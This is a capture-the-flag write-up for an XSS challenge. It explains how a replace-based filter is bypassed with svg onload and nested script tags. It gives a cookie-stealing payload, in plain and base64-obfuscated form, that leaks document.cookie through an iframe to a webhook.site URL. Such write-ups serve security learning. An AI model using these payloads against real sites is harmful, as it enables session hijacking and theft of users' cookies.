 ## Description
![](rainbow11.png)
///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.

## Solution
From the challenge description, we can see this should be an XSS challenge, and the link also leads us to a YouTube video introducing XSS. Since source code is provided, so we move on to check the source code first (important to understand how the website works and where you should inject the payload!)

![](rainbow12.png)
///caption
///
At first, we can see that the filters implemented are quite strong which checks for all caps and  will replace it. 

![](rainbow13.png)
///caption
///
However, there are still some tags that are not being filtered like `<svg onload=alert(1)>` When doing the writeup i also found that this works `<scr<script>ipt>alert(1)</script>` because the sanitization is done by using replace, so the system will read through our payload and replace only `<script>` into empty making the payload to become `<script>alert(1)</script>`.

![](rainbow14.png)
///caption
/// 
Don’t forget to check until the end of the source code, we can see that the `bot.js` will be visiting the endpoint `/report`, which is where we should inject our payload on. <br>   
Since XSS is being triggered, we can just use the working payload and get the cookies as usual. `iFrame` is used to create a small webpage inside the web app, then supply with the unique URL from https://webhook.site/. <br>   

Payload:
```javascript {frame="none"}
<svg/onload=document.write("<iframe src='https://webhook.site/ccffcd19-da9c-4b78-a725-7377e2cab03b?cookie="+document.cookie+"'></iframe>");>
```

But just to avoid any hiccups and out of my own habits, I turn the context into base64 encoded strings and decode it back with `eval` + `atob`. Final payload: 
```javascript {frame="none"}
<svg/onload=
eval(atob("ZG9jdW1lbnQud3JpdGUoIjxpZnJhbWUgc3JjPSdodHRwczovL3dlYmhvb2suc2l0ZS9jY2ZmY2QxOS1kYTljLTRiNzgtYTcyNS03Mzc3ZTJjYWIwM2I/Y29va2llPSIrZG9jdW1lbnQuY29va2llKyInPjwvaWZyYW1lPiIpOw=="))>
```

![](rainbow15.png)